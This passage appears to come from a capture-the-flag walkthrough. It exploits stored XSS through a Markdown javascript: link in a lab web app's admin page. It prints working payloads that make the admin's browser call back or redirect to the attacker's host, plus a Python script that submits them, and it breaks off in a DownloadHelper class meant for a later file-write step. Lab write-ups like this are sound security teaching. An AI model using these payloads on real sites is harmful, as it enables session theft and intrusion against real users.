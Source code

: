 That suggests that if I can set a cereal title to `[XSS](javascript: [code])` and then someone looks at the admin page, I should get XSS.

It took some playing around with the payload, but I got this to work:

```

[XSS](javascript: document.write%28%27<img src=%22http://10.10.14.15/0xdf.png%22 />%27%29)

```

Characters like `'"()` all throw off the Markdown tag, so I’ll encode them. On sending that as the title, a few minutes later there was a hit on my Python webserver:

```
10.10.10.217 - - [25/Apr/2021 17:05:12] code 404, message File not found
10.10.10.217 - - [25/Apr/2021 17:05:12] "GET /0xdf.png HTTP/1.1" 404 -

```

That proves not only that there is a user (or really some kind of automation) checking the admin page, but that the exploit works.

I’ll next try to convert that to a script tag, and prove to myself it works by trying to get it to request something from my VM. For this testing, it was easier to work out of a Python script to save what I was trying.

I couldn’t get `<script src='[url of my host]'></script>` to work. I also couldn’t get an `XMLHttpRequest` to my host to work. I *think* that’s a Same Origin policy issue. I was able to redirect the page to my webserver by setting `window.location`:

```

xss_payload = {"json":"{\"title\":\"[XSS](javascript: document.write%28%22<script>window.location = 'http://10.10.14.15/location';</script>%22%29)\",\"flavor\":\"bacon\",\"color\":\"#FFF\",\"description\":\"\"}"}
resp = requests.post(f'https://{target}/requests', json=xss_payload, headers=headers, verify=False)
print(resp.text)  

```

I had to use encoding for characters like `()"` as `%28`, `%29`, and `%22` respectively order for it not close out something prematurely. I was also able to write a `<script>` tag that had JavaScript in it and would run.

### File Upload

At this point there’s one more piece I need to complete this exploit. There’s a `DownloadHelper.cs` file in the source root. It defines a single class, `DownloadHelper`, which has public functions to set `URL` and `FilePath`, and on setting each, the private `Download` function is called, which gets a file from `URL` and saves it at `FilePath` (with a slight modification).

```

public class DownloadHelper
{
    private String _URL;
    private String _FilePath;
    public String URL
    {
        get { return _URL; }
        set
        {
            _URL = value;
            Download();
        }
    }
    public String FilePath
    {
        get { return _FilePath; }
```